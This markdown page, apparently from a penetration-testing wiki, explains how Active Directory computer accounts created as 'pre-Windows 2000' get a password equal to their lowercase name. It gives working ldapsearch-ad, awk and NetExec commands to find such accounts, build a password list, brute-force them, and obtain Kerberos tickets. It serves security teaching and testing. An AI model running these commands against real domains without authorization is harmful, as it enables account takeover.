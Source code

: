 ```yaml
---
authors: ShutdownRepo, mpgn
category: ad
---
```


# Pre-Windows 2000 computers

## Theory

When a new computer account is configured as "pre-Windows 2000 computer", its password is set based on its name (i.e. lowercase computer name without the trailing `$`). When it isn't, the password is randomly generated.

Once an authentication occurs for a pre-Windows 2000 computer, according to [TrustedSec's blogpost](https://www.trustedsec.com/blog/diving-into-pre-created-computer-accounts/), its password will usually need to be changed.

## Practice

Finding computer accounts that have been "pre-created" (i.e. manually created in [ADUC](https://blog.netwrix.com/2017/01/30/active-directory-users-and-computers-aduc/) instead of automatically added when joining a machine to the domain), but have never been used can be done by filtering the `UserAccountControl` attribute of all computer accounts and look for the value 4128 (32|4096) (deductible via the [UserAccountControl](https://docs.microsoft.com/en-us/troubleshoot/windows-server/identity/useraccountcontrol-manipulate-account-properties) flags):

* 32 - `PASSWD_NOTREQD`
* 4096 - `WORKSTATION_TRUST_ACCOUNT`

The `logonCount` attribute can be filtered as well.

The [ldapsearch-ad](https://github.com/yaap7/ldapsearch-ad) tool can be used to find such accounts. Once "pre-created" computer accounts that have not authenticated are found, they should be usable with their lowercase name set as their password. This can be tested with [NetExec](https://github.com/Pennyw0rth/NetExec) (Python) for instance.


```powershell
# 1. find pre-created accounts that never logged on
ldapsearch-ad.py -l $LDAP_SERVER -d $DOMAIN -u $USERNAME -p $PASSWORD -t search -s '(&(userAccountControl=4128)(logonCount=0))' | tee results.txt

# 2. extract the sAMAccountNames of the results
cat results.txt | grep "sAMAccountName" | awk '{print $5}' | tee computers.txt

# 3. create a wordlist of passwords matching the Pre-Windows 2000 generation, based on the account names
cat results.txt | grep "sAMAccountName" | awk '{print tolower($5)}' | tr -d '$' | tee passwords.txt

# 4. bruteforce, line per line (user1:password1, user2:password2, ...)
nxc smb $DC_IP -u "computers.txt" -p "passwords.txt" --no-bruteforce
```


> You will see the error message STATUS_NOLOGON_WORKSTATION_TRUST_ACCOUNT when you have guessed the correct password for a computer account that has not been used yet. ([trustedsec.com](https://www.trustedsec.com/blog/diving-into-pre-created-computer-accounts/))

Testers can then change the Pre-Windows 2000 computer accounts' password (i.e. [rpcchangepwd.py](https://github.com/SecureAuthCorp/impacket/pull/1304), [kpasswd.py](https://github.com/SecureAuthCorp/impacket/pull/1189), etc.) in order to use it.

> [!SUCCESS]
> Alternatively, Filip Dragovic was able to authenticate using Kerberos without having to change the account's password. ([source](https://twitter.com/filip_dragovic/status/1524730451826511872))
> 
> ```bash
> getTGT.py $DOMAIN/$COMPUTER_NAME\$:$COMPUTER_PASSWORD
> ```
> 
> The ticket obtained can then be used with [Pass the ticket](../kerberos/ptt.md)

## Resources

[https://www.trustedsec.com/blog/diving-into-pre-created-computer-accounts/](https://www.trustedsec.com/blog/diving-into-pre-created-computer-accounts/)

[https://web.archive.org/web/20080205233505/http://support.microsoft.com/kb/320187](https://web.archive.org/web/20080205233505/http://support.microsoft.com/kb/320187)

